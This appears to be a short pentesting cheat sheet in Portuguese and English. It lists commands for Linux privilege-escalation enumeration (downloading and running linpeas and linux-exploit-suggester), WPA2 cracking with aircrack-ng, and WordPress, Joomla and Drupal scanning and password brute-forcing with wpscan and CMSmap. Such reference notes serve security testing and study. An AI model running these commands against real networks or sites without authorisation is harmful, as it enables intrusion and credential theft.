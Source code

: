 Procurar vulnerabilidades no Kernel
uname -r

**Ferramentas de Enumeração Automáticas**
 wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh

**Linux Exploit Suggester**:
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh
chmod +x linux-exploit-suggester.sh
./linux-exploit-suggester.sh




## ANDROID

## WIRELESS

aircrack-ng WPA2crack-01.cap -w password.txt


Cracking Wifi Password
aircrack-ng -a2 -b [Target BSSID] -w [password_Wordlist.txt] [WP2 PCAP file] (For cracking WPA2 or other networks through the captured .pcap file)


## WEB HACKING

### CMS
Wordpress, Joomla, Drupal

**Droopescan**
https://github.com/SamJoan/droopescan
Comando: `droopescan scan drupal -u http://example.org/ -t 32`
wpscan --url https://example/ --enumerate u
wpscan --url https://example/ --passwords wordlist.txt --usernames samson


**CMSmap**
https://github.com/dionach/CMSmap

cmsmap.py https://example.com
cmsmap.py https://example.com -f W -F --noedb -d
cmsmap.py https://example.com -i targets.txt -o output.txt
cmsmap.py https://example.com -u admin -p passwords.txt
cmsmap.py -k hashes.txt -w passwords.txt

#### Wordpress
https://academy.hackthebox.com/module/17/section/40

#### Drupal
https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/drupal/drupal-rce
